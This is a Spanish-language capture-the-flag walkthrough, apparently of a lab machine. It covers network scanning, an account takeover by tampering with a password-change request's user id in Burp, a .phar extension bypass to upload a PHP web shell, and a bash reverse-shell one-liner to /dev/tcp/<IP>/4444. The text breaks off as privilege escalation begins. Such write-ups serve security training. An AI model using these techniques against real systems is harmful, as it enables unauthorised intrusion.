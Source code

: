 ### Tags:

# Reconocimiento (`Linux`)

Lo primero que hacemos es un **escaneo de equipos** que estén conectados ami red de esta forma:

```ruby
arp-scan -I eth0 --localnet
```

![image](https://github.com/user-attachments/assets/3badab58-7fec-4601-9fd1-3a6a4360f2b0)


# Escaneo (*22, 80*)

```css
sudo nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn <IP>
```

![image](https://github.com/user-attachments/assets/412d0f46-27e6-423e-bae0-74f04c5111d9)

```css
sudo nmap -p22,80 -sCV <IP> -oN escaneo
```

![image](https://github.com/user-attachments/assets/52c81a92-80ea-4ee3-99e5-87ba14bbca60)

# Port 80

La web esta y observamos que hay un panel de login

![image](https://github.com/user-attachments/assets/956c8e12-5891-4648-8732-290318958e8d)

Probamos Inyecciones SQL pero nada, pero vemos que podemos **registrarnos**

![image](https://github.com/user-attachments/assets/f3011e0a-b79a-4ed5-b26e-0cb2d641e1ce)

Nos registramos como `test:test123` y vemos que podemos ingresar

![image](https://github.com/user-attachments/assets/3dc7b59a-07b5-4b01-9777-8524bbe88c79)

### BurpSuite

Ahora lo que hacemos con BurpSuite es interceptar la petición de `Password` 

![image](https://github.com/user-attachments/assets/ddc7d70a-d7c6-4062-a478-b2777e1302ef)

Observamos que esta viajando por POST y que nos el id 

![image](https://github.com/user-attachments/assets/ea004b07-d265-403f-a116-83c040a2b24f)

- Por ende lo que podemos hacer es:
	- Asignarle el **id=1** que puede ser admin y de **password=admin**

![image](https://github.com/user-attachments/assets/9499afec-15d3-4ecc-a252-353005f83ffa)

- Ahora volvemos a la web, nos deslogueamos y ponemos `admin:admin`
	- Y estamos dentro 

![image](https://github.com/user-attachments/assets/f4a862f9-8533-4876-9aae-da642cf5988d)

# Explotación

Lo que hice fue tartar de subir una **archivo.php** malicioso pero nos dice que solo acepta `jpg,png,gif`, por ende vamos a atener que hacer un Bypass

![image](https://github.com/user-attachments/assets/f10e592f-279d-4dd1-9853-efc1efafb104)

Pero interceptándolo con Burp, lo que hicimos es llamar al archivo con extensión `.phar` y funciono

![image](https://github.com/user-attachments/assets/e4b1fc59-1983-4006-a95a-8aea5d3e4453)

Ahora llamo al archivo y vemos si 

![image](https://github.com/user-attachments/assets/9c72d8ea-dc94-4cc0-9849-38e9b1e7b721)

- Nos mandamos una ReverseShell con este comando: `bash -c "bash -i >%26 /dev/tcp/<IP>/4444 0>%261"`
	- Nos ponemos en escucha con `Netcat`

![image](https://github.com/user-attachments/assets/56737569-6128-47f4-a545-13b35ee0452b)

Ahora hacemos el tratamiento de la `TTY`

```ruby
script /dev/null - bash
Ctrl + z
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 42 columns 189
```

# Escalada (``John``)

- Si vemos tenemos un binario `toto` que si lo ejecutamos nos da el **ID** de john
	- Por ende lo que vamos a hacer es un secuestro 



































